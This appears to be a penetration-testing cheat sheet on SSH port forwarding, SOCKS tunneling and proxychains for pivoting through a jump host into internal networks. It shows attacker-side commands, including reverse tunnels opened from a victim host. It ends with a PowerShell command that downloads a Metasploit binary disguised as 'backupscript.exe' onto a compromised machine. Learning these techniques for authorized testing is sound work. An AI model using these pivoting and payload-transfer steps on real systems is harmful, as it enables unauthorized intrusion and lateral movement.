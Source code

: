 ```yaml
---
description: This is more of a cheat sheet for commands.
---
```


# SSH

## Local Port Forwarding

### Local Port Forwarding

```bash
 ssh -L 1234:localhost:3306 Ubuntu@10.129.202.64
```

Opens a listener on local port 1234 (our machine) and sends all traffic to remote port 3306 (10.129.202.64).

### Forwarding multiple ports

```bash
 ssh -L 1234:localhost:3306 8080:localhost:80 ubuntu@10.129.202.64
```

This SSH command connects to a remote machine and sets up two local port forwards:

1. Local port 1234 forwards to port 3306 on the remote machine (typically MySQL).
2. Local port 8080 forwards to port 80 on the remote machine (typically HTTP).

### Local Port Forwarding Example

<figure><img src="../../.gitbook/assets/Screenshot 2023-10-03 194415.png" alt=""><figcaption></figcaption></figure>

```bash
jumphost@ubuntu ssh -N -L 0.0.0.0:4455:172.16.50.217:445 database_admin@10.4.50.215
```

Opens a listener on port 4455 (CONFULENCE01 Jump Host) and forwards all traffic through 10.4.50.215 to 172.16.50.217:445. (PGDATABASE01).

_<mark style="color:red;">**NOTE**</mark>_: **-N** flag is means execute no remote commands. No shell will be opened.

## Dynamic Port Forwarding - Tunneling over SOCKS proxy

Local port forwarding is limited to one socket per SSH connection. OpenSSH allows for dynamic port forwarding. From a single listening port, packets can be forwarded to any socket that the server can route to. **This works because the listening port creates a SOCKS proxy.**

### D_**ynamic Port Forwarding from Attack Host:**_

```shell-session
attacker@kali$ ssh -D 9050 ubuntu@10.129.202.64
```

_<mark style="color:red;">**NOTE:**</mark>_ The **-D** flag enables dynamic port forwarding & ssh acts as a SOCKS server.

```bash
$ tail -4 /etc/proxychains.conf

# meanwile
# defaults set to "tor"
socks4 	127.0.0.1 9050
```

### D_**ynamic Port Forwarding From Jump Host:**_

```shell-session
jump-host@ubuntu$ ssh -D 9050 ubuntu@172.167.32.11
```

```bash
┌──(kali㉿kali)-[~]
└─$ tail -f /etc/proxychains4.conf
# defaults set to "tor"
#socks4         127.0.0.1 9050
socks5  192.168.198.63  9050 # Ip address of jump host

```

### Using tools with Proxychains:

_**Nmap:**_&#x20;

This is my preferred nmap command to run. (172.16.50.217 is in internal network)

```
kali@kali:~$ proxychains nmap -vvv -sT --top-ports=20 -Pn 172.16.50.217
```

_**xfreerdp:**_

```bash
kali@kali proxychains xfreerdp /v:172.16.5.19 /u:victor /p:pass@123
```

## Remote Port Forwarding

Also known as **Reverse Port Forwarding**. In real world scenarios it is likely we'll encounter a firewall that heavily restricts inbound connections. Outbound connections however, are less likely to be blocked.&#x20;

<figure><img src="../../.gitbook/assets/Screenshot 2023-10-04 153523.png" alt=""><figcaption></figcaption></figure>

### Start SSH Service

```shell-session
kali:~$ sudo systemctl start ssh
```

### Connect back to Kali Host

The below command opens a port on localhost 2345 on our kali machine. All traffic is forwarded through the jump host to 10.4.50.215:5432.

<pre class="language-shell-session"><code class="lang-shell-session"><strong>victim@jump-host$ ssh -N -R 127.0.0.1:2345:10.4.50.215:5432 kali@192.168.118.4
</strong></code></pre>

### Verifying Port Forward

As we can see, our kali box is listening on 127.0.0.1 2345

```
kali@kali$ ss -ntlpu                     
Netid            State             Recv-Q            Send-Q                       Local Address:Port                          Peer Address:Port            Process            
udp              UNCONN            0                 0                                  0.0.0.0:52704                              0.0.0.0:*                                  
tcp              LISTEN            0                 128                              127.0.0.1:2345                               0.0.0.0:*                                  
tcp              LISTEN            0                 128                                0.0.0.0:22                                 0.0.0.0:*                                  
tcp              LISTEN            0                 128                                   [::]:22                                    [::]:*      
```

## Remote Dynamic Port Forwarding

_<mark style="color:red;">**NOTE:**</mark>_ This tends to be the most optimal setup for port forwarding during engagements. We get all the benefits from Dynamic Port forwarding along with the remote configurations.&#x20;

### Create Dynamic Remote Port Forward

Creating a Dynamic Remote Port Forward is similar to creating a Remote port forward. We use the -R command but only with one port. We do not specify and address! Neither do we use -D!

```shell-session
jumphost@ubuntu$ ssh -N -R 9998 kali@192.168.118.4
```

### Update SOCKS Proxy - proxychains

```bash
kali@kali:~$ tail /etc/proxychains4.conf
#       proxy types: http, socks4, socks5, raw
#         * raw: The traffic is simply forwarded to the proxy without modification.
#        ( auth types supported: "basic"-http  "user/pass"-socks )
#
[ProxyList]
# add proxy here ...
# meanwile
# defaults set to "tor"
socks5 127.0.0.1 9998 # IP address is localhost 127.0.0.1
```

### Verifying Port Forward

As we can see, our kali box is listening on 127.0.0.1 9998

```shell-session
kali@kali$ ss -ntlpu                     
Netid            State             Recv-Q            Send-Q                       Local Address:Port                          Peer Address:Port            Process            
udp              UNCONN            0                 0                                  0.0.0.0:52704                              0.0.0.0:*                                  
tcp              LISTEN            0                 128                              127.0.0.1:9998                               0.0.0.0:*                                  
tcp              LISTEN            0                 128                                0.0.0.0:22                                 0.0.0.0:*                                  
tcp              LISTEN            0                 128                                   [::]:22
```



## Additional Info

### Transferring Metasploit Binary to Victim (on internal network).

We may need to transfer a binary to a machine we've gained access to so we can port forward.

```powershell
PS C:\Windows\system32> Invoke-WebRequest -Uri "http://172.16.5.129:8123/backupscript.exe" -OutFile "C:\backupscript.exe"
```
